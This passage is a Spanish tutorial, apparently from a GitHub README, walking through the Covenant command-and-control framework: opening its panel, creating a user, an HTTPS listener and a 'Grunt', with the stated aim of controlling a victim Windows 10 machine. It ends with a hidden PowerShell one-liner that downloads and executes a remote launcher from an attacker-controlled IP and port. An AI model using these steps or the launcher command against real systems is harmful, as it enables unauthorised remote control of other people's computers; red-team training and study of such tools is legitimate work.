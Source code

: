 
#### 4. Abrir Covenant en el navegador

Abre Firefox y ve a:

```
https://127.0.0.1:7443
```

🔒 Ignora el error SSL (es un certificado autofirmado).

---

#### 5. Crear usuario

Cuando ingresas por primera vez, te pedirá crear un usuario admin. Luego ya puedes usar el panel gráfico.

---

### 🧪 Ejemplo completo de uso de Covenant

#### 🎯 Objetivo: obtener control de una máquina Windows 10 víctima

---

#### 1. Crear un Listener HTTPS

En el panel de Covenant:

- Ve a **"Listeners" > "Create Listener"**.
- Nombre: `https_listener`
- Puerto: `443` (o `7443`)
- Dirección: tu IP o localhost

Guarda.

---

#### 2. Crear un Grunt

En **"Grunts" > "Create Grunt"**:

- Selecciona el listener creado.
- Escoge el tipo de launcher (ejemplo: PowerShell).

Covenant generará un **script en PowerShell** que puedes usar para conectarte desde la víctima.

---

#### 3. Ejecutar el launcher en la víctima

En la máquina Windows 10, abre PowerShell (con permisos si es posible) y ejecuta el script generado.

Ejemplo (simplificado):

```powershell
powershell -w hidden -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://IP:PORT/launcher')"
```

---
